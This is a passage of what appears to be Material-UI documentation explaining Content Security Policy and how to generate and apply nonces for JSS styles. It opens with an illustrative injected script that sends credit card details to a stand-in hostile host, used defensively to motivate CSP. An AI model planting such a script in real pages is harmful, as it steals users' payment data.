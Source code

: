     <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    

This vulnerability would allow the attacker to execute anything. However, with a secure CSP header, the browser will not load this script.

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### How does one implement CSP?

In order to use CSP with Material-UI (and JSS), you need to use a nonce. A nonce is a randomly generated string that is only used once, therefore you need to add a server middleware to generate one on each request. JSS has a [great tutorial](https://github.com/cssinjs/jss/blob/next/docs/csp.md) on how to achieve this with Express and React Helmet. For a basic rundown, continue reading.

A CSP nonce is a Base 64 encoded string. You can generate one like this:

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

It is very important you use UUID version 4, as it generates an **unpredictable** string. You then apply this nonce to the CSP header. A CSP header might look like this with the nonce applied:

```js
header('Content-Security-Policy')
  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

If you are using Server-Side Rendering (SSR), you should pass the nonce in the `<style>` tag on the server.

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheets.toString() } }
/>
```

Then, you must pass this nonce to JSS so it can add it to subsequent `<style>` tags. The client side gets the nonce from a header. You must include this header regardless of whether or not SSR is used.

```jsx
<meta property="csp-nonce" content={nonce} />
```